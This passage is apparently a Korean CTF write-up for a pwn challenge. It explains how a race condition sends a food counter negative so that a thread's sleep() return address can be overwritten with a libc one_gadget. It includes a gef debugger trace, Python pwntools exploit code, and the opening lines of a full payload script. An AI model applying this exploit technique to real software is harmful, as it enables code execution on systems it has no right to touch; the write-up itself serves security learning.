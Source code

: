 위와 같이 매 초마다 `left_time`을 감소시키고 `food`가 완성되었는지 확인하기 위해서 `clock_nanosleep()`을 실행하고 있다.

또한 앞서 leak한 TLS와는 다른 TLS 영역을 할당받아 stack으로 활용하고 있다.

Call stack을 보면 `sleep()` -> `nanosleep()` -> `clock_nanosleep()` 순으로 호출이 되었는데, 무언가 overwrite를 하기 위해서라면 호출 주기가 긴 `sleep()`을 타겟으로 디버깅을 하다보면,
``` bash
 → 0x7ffff7eb7c84 <sleep+100>      ret
──────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x7ffff7e41d61 in ?? (), reason: SINGLE STEP
[#1] Id 2, Name: "chall", stopped 0x7ffff7ec4a9a in read (), reason: SINGLE STEP
[#2] Id 3, Name: "chall", stopped 0x7ffff7eb7c84 in sleep (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7eb7c84 → sleep()
[#1] 0x555555555923 → jmp 0x5555555556d9
[#2] 0x7ffff7e45a94 → jmp 0x7ffff7e4586d
[#3] 0x7ffff7ed2a34 → clone()
─────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/gx $rsp
0x7ffff75a3ce8: 0x0000555555555923
```
이렇게 `sleep()`이 `ret`를 하는 순간이 오고 이 때 `rsp`는 `0x7ffff75a3ce8`를 가리키고 있다.

이 주소는 앞서 leak한 `0x7ffff7da56c0`와 다른 TLS 영역의 주소이긴 하지만, TLS 사이의 offset이 일정하게 할당이 되어 offset을 계산해주면 해당 영역에 접근할 수 있다.

원본 문제는 shadow stack이 적용되어있으나 여기에서는 shadow stack이 없는 환경이기 때문에 이 `return address`를 덮어서 RIP control이 가능하다.

Race condition 트리거를 성공하면 `food_count`가 -1이 되어 `food[-1].cook_time`의 위치가 `food_count`의 위치가 되는 것을 이용하면 다음과 같이 thread 3 `sleep()`의 `return address`에 값을 쓰는 것이 가능하다.
``` python
    insert_food(s, b"1", 1)
    sleep(0.9813)
    remove_food(s, b"1")
    
    food = 0x7ffff7da5560
    ret_sleep = 0x7ffff75a3ce0
    index = (food - ret_sleep) // 0x50 + 1
    print(insert_food(s, b"1", index * -1))

    one_gadget = 0x583dc
    payload = b"A" * 8
    payload += p64(libc + one_gadget)
    insert_food(s, b"5", 12345, payload)
```
마침 활용할 수 있는 one shot 가젯이 있어서 one shot 가젯의 주소로 덮어주었다.

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "chall"
LIBRARY = "libc.so.6"
CONTAINER = "2206a2d4bc57"

code_base = 0x0000555555554000
bp = {
    'cook' : code_base + 0x1928,
    'dec_count_cook' : code_base + 0x21F9,
    'read_insert_cook' : code_base + 0x1E51,
    'remove_cook' : code_base + 0x1F9D,
    'go_back_cook' : code_base + 0x221A,
```